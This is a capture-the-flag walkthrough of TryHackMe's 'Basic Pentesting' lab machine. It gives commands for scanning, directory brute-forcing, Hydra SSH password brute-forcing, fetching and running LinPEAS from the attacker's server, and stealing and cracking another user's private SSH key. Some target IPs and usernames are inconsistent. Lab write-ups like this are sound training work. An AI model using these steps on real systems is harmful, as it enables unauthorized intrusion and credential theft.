# Basic Pentesting - Try Hack Me


Target: 10.10.162.125


The first thing I did is to scan the ip address. Let us run an Nmap scan on the target 10.10.162.125
###### nmap scan
```
$ sudo nmap -sC -sV 10.10.162.125
```
There are multiple open ports but the port 22 is what caught my eye. Port 22 or SSH is often used to login and perform operations on computers.
Result:


Web Page Results:

  


I inspected the source code of the webpage to find interesting information 

Source Code:





I used ffuf with small.txt file to try to bruteforce for the directories.
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

After minutes of bruteforcing I got the development directory

Fuff Results:





Now let us take a look at the development page.



dev.txt



j.txt



According to the note, I have found out that J has a weak credentials and that his/her password hash can be cracked easily.

I tried to gather more interesting information and used enum4linux.

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


I found 2 users: jay and kay



Now that I know the user name, I will try to bruteforce the password of user jan using Hydra


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```


After minutes of waiting, we successfully retrieved the password of user jan using the password list rockyou.txt
user:jan password:armando




Let's login to user jan through ssh

###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### host a server to download LinPEAS on the machine
```
$ python -m http.server 8001
```


###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```



###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```


###### found possible private SSH keys 



###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak

###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```


###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa



###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


###### chmod 
```
$ chmod 600 kay_id_rsa
```


###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```



